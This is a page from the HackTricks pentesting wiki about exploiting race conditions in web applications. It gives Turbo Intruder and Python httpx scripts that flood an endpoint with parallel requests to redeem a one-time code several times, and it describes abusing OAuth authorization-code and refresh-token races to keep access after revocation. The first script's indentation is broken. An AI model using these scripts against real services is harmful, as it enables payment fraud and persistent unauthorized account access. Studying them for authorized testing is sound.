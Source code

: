 # Race Condition

![](<../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Anything limited by a number of attempts

Race conditions are **vulnerabilities** that **appear** in webs that **limit the number of times you can perform an action**. A very easy example can be found in [**this report**](https://medium.com/@pravinponnusamy/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43).

## Using several times a one-time use code

When you make the web page perform some **action** that **should be done only once**, but if the action is done **several times** you will be **benefited**, you really need to try a **Race condicion**.\
Most of the time this is directly related with **money** (if an action is made you get X money, so let's try to make it several time very quickly)**.**

### **Using from the same account the same code several times**

For example, in [**this bug** ](https://hackerone.com/reports/759247)the hunter was able to **load the money inside a gift card several times.**

This is the **turbo intruder** script used to **test** the **race condition** of the mentioned writeup:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
   engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Using also BURP you could also send the **request** to **Intruder**, set the **number of threads** to **30** inside the **Options menu and,** select as payload **Null payloads** and generate **30.**

### **Using the same code from different accounts**

**If the previously proposal didn't work (try to use the same code several times from the same account) you try a variant:Try t use the same code from different accounts:**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

### Using Python

```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```

## OAuth2 eternal persistence

There are several [**OAUth providers**](https://en.wikipedia.org/wiki/List\_of\_OAuth\_providers). Theses services will allow you to create an application and authenticate users that the provider has registered. In order to do so, the **client** will need to **permit your application** to access some of their data inside of the **OAUth provider**.\
So, until here just a common login with google/linkdin/github... where you are prompted with a page saying: "_Application \<InsertCoolName> wants to access you information, do you want to allow it?_"

#### Race Condition in `authorization_code`

The **problem** appears when you **accept it** and automatically sends an **`authorization_code`** to the malicious application. Then, this **application abuses a Race Condition in the OAUth service provider to generate more that one AT/RT** (_Authentication Token/Refresh Token_) from the **`authorization_code`** for your account. Basically, it will abuse the fact that you have accept the application to access your data to **create several accounts**. Then, if you **stop allowing the application to access your data one pair of AT/RT will be deleted, but the other ones will still be valid**.

#### Race Condition in `Refresh Token`

Once you have **obtained a valid RT** you could try to **abuse it to generate several AT/RT** and **even if the user cancels the permissions** for the malicious application to access his data, **several RTs will still be valid.**

## References

* [https://hackerone.com/reports/759247](https://hackerone.com/reports/759247)
* [https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html](https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html)
* [https://hackerone.com/reports/55140](https://hackerone.com/reports/55140)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

![](<../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
